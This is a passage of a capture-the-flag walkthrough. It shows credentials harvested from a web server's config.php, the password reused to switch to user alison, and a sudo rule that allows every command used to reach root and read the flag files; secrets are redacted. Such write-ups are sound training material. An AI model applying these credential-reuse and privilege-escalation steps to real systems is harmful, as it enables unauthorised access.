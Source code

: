 - To read the `user.txt`, we need have access as `alison`
- By searching through the file system, find a configuration file:

```bash
$ cd /var/www/html
$ ls
config.php  poster
$ cat config.php
<?php 

        $dbhost = "127.0.0.1";
        $dbuname = "alison";
        $dbpass = "REDACTED";
        $dbname = "mysudopassword";
?>
```

---

## Alison user

- Switch to alison to get access to `user.txt`

```bash
$ su alison
Password: 
alison@ubuntu:~$ whoami
alison
alison@ubuntu:~$ ls
user.txt
alison@ubuntu:~$ cat user.txt
REDACTED
```

---

## Privilege Escalation

- Alison can run any command as any user!
- So switch to root user and read `root.txt`:

```bash
alison@ubuntu:~$ sudo -l
[sudo] password for alison: 
Matching Defaults entries for alison on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alison may run the following commands on ubuntu:
    (ALL : ALL) ALL

alison@ubuntu:~$ sudo su
root@ubuntu:~/home/alison# whoami
root
root@ubuntu:/home/alison# cd /root
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt 
REDACTED
```

----